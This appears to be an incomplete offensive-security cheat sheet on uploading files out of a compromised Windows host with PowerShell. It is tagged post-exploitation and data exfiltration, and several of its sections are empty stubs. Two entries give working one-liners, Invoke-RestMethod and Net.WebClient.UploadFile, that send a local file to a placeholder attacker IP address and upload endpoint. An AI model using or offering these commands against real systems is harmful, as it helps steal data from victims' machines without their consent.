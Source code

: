 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Upload

## 01 - Command Prompt

## 02 - PowerShell

TODO: Fill this info

### 2.1 - `Invoke-WebRequest`

```
PS C:\> 
```

### 2.2 - `Invoke-RestMethod`

```
PS C:\> $body = Get-Content file.txt
Invoke-RestMethod -Uri http[s]://<attacker_IP>[:<PORT>] -Method PUT -Body $body
```

### 2.3 - `UploadFile`

```
PS C:\> New-Object Net.WebClient.UploadFile('http[s]://<attacker_IP>[:<PORT>]/upload.php', 'file.txt')
```